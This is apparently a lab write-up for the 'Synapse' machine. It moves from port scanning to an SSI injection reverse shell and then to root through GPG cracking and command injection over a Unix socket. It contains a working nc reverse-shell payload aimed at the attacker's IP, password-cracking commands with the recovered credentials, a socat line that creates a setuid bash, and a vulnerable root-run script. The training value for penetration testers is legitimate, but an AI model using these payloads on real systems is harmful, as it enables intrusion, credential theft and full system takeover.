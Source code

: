 # Synapse

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.201.149
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-15 12:30 +08
Nmap scan report for 192.168.201.149
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

### SMB + FTP Rabbit Holes

FTP doesn't accept anonymous logins, and SMB with no credentials doesn't show us any share that we can access:

```
$ smbmap -H 192.168.201.149
[+] IP: 192.168.201.149:445     Name: 192.168.201.149                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

It is thus likely that there's a web exploit, so we can start proxying traffic through Burpsuite.&#x20;

### Web Enum --> SSI Injection

Port 80 was running a custom dashboard:

<figure><img src="../../../.gitbook/assets/image (16) (11).png" alt=""><figcaption></figcaption></figure>

The File Manager was running elFinder, but we cannot access it since we need administrative access:

<figure><img src="../../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

I checked the user tab, and found that the user was called `mindsflee`:

<figure><img src="../../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

All of options were under construction, except for the one on the right most.&#x20;

<figure><img src="../../../.gitbook/assets/image (21) (4).png" alt=""><figcaption></figcaption></figure>

From my enumeration, this seems to be the most vulnerable point. I attempted to upload some PHP webshells, but it seems only images are allowed.

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

There was one weird part, which was the `url=inspect.shtml` portion, since I had never seen that before. Searching for `shtml` gives us results for Server Side Includes (SSI).

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Hacktricks has done a page on SSI Injection that we could try.

{% embed url="https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection" %}

We can try some of the payloads:

<figure><img src="../../../.gitbook/assets/image (20) (2).png" alt=""><figcaption></figcaption></figure>

If we follow the redirect, we get this:

<figure><img src="../../../.gitbook/assets/image (6) (4).png" alt=""><figcaption></figcaption></figure>

We now have RCE on the machine, and we can easily get a reverse shell using this:

```
<!--#exec cmd='nc -c bash 192.168.45.189 21' -->
```

<figure><img src="../../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### GPG Creds --> Mindsflee Shell

Within the `/home/mindsflee` directory, there are some files of interest:

```
www-data@synapse:/home/mindsflee$ ls -la
total 32
drwxr-xr-x 3 mindsflee mindsflee 4096 Jun 10  2021 .
drwxr-xr-x 3 root      root      4096 Jun 10  2021 ..
lrwxrwxrwx 1 root      root         9 Jun 10  2021 .bash_history -> /dev/null
-rw-r--r-- 1 mindsflee mindsflee  220 Jun 10  2021 .bash_logout
-rw-r--r-- 1 mindsflee mindsflee 3526 Jun 10  2021 .bashrc
drwxr-xr-x 2 root      root      4096 Jun 14  2021 .gnupg
-rw-r--r-- 1 mindsflee mindsflee  807 Jun 10  2021 .profile
-rw-r--r-- 1 mindsflee mindsflee   33 Jul 15 00:29 local.txt
-rw-r--r-- 1 root      root      2058 Jan  3  2021 synapse_commander.py

www-data@synapse:/home/mindsflee/.gnupg$ ls -la
total 20
drwxr-xr-x 2 root      root      4096 Jun 14  2021 .
drwxr-xr-x 3 mindsflee mindsflee 4096 Jun 10  2021 ..
-rw-r--r-- 1 mindsflee mindsflee 5180 Jun 14  2021 creds.priv
-rw-r--r-- 1 mindsflee mindsflee  124 Jun 14  2021 creds.txt.gpg
```

The `.gnupg` file contains some creds. Download these files back to our machine, and we can then try to decrypt it. Using `gpg`, we can attempt to import this key but it requires a passphrase.&#x20;

We can crack this using `gpg2john` and `john`:

```
$ gpg2john creds.priv > gpg_hash
$ john --show gpg_hash                                     
mindsflee:qwertyuiop:::mindsflee::creds.priv
```

Using this, we can then import the key using `gpg` and decrypt the file:

```
$ gpg --import creds.priv       
gpg: key 8ECE3C203E92BE79: "mindsflee" not changed
gpg: key 8ECE3C203E92BE79: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1

$ gpg --output decrypted --decrypt creds.txt.gpg
gpg: AES256.CFB encrypted data
gpg: encrypted with 1 passphrase

$ cat decrypted                           
user: mindsflee
password: m1ndsfl33w1llc4tchy0u?
```

Using this password, we can `su` to `mindsflee`.

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges --> Socket Injection

The `mindsflee` user can use `sudo` with the Python script we found:

```
[sudo] password for mindsflee: 
Matching Defaults entries for mindsflee on synapse:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mindsflee may run the following commands on synapse:
    (root) /usr/bin/python /home/mindsflee/synapse_commander.py
```

Here's the content of the script:

```python
import socket
import os, os.path, sys
import time
from collections import deque    





print("""\
  
 _____ __ __ _____ _____ _____ _____ _____    _____ _____ _____ _____ _____ _____ ____  _____ _____ 
|   __|  |  |   | |  _  |  _  |   __|   __|  |     |     |     |     |  _  |   | |    \|   __| __  |
|__   |_   _| | | |     |   __|__   |   __|  |   --|  |  | | | | | | |     | | | |  |  |   __|    -|
|_____| |_| |_|___|__|__|__|  |_____|_____|  |_____|_____|_|_|_|_|_|_|__|__|_|___|____/|_____|__|__|


 
  """)

print("Focus your approach with a system designed for single network port access.")
print ("With Synapse Commander, a single arm delivers three multi-jointed instruments")
print("and a fully wristed 3DHD camera for visibility and control in narrow surgical spaces.")
print("Streamlined setup, multiple control modes and a dynamic statistics display are included")
print
print("1 - Access to ARM management")
print("2 - Enable 3DHD camera")
print("3 - Settings")
print("4 - Reboot the system")
print
instruction = raw_input("Synapse Instruction:")

if instruction == "1":
    
    print ("\nARM MANAGEMENT ENABLED")
    os.system("touch 2343432445467676")
elif instruction == "2":
    
    print ("\n3DHD CAMERA ENABLED")
    os.system("touch 5344225453244546")
elif instruction == "3":
    
    print ("\nACCESS TO SETTINGS CONFIGURATION")
    os.system("touch 77756563456244546")
elif instruction == "4":
    
    print ("\nSYSTEM REBOOTED")
    os.execl(sys.executable, sys.executable, *sys.argv)

else:
    os.execl(sys.executable, sys.executable, *sys.argv)



if os.path.exists("/tmp/synapse_commander.s"):
  os.remove("/tmp/synapse_commander.s")    

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("/tmp/synapse_commander.s")
os.system("chmod o+w /tmp/synapse_commander.s")
while True:
  server.listen(1)
  conn, addr = server.accept()
  datagram = conn.recv(1024)
  if datagram:
    print(datagram)
    os.system(datagram)
    conn.close()
```

This program seems to open a Socket as `root` using the configuration of `synapse_commander.s` after we input any number from 1-3, since option 4 and all others would just re-run the script.&#x20;

Again, Hacktricks has a page for this:

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/socket-command-injection" %}

In one SSH session, run the Python script and input '1'. In another SSH session, run this command:

{% code overflow="wrap" %}
```bash
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/tmp/synapse_commander.s
```
{% endcode %}

When we enter that command, the script starts waiting for data to be sent in, which it passes to `os.system(datagram)`. This would result in RCE as `root`:

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

We can then easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (22) (12).png" alt=""><figcaption></figcaption></figure>
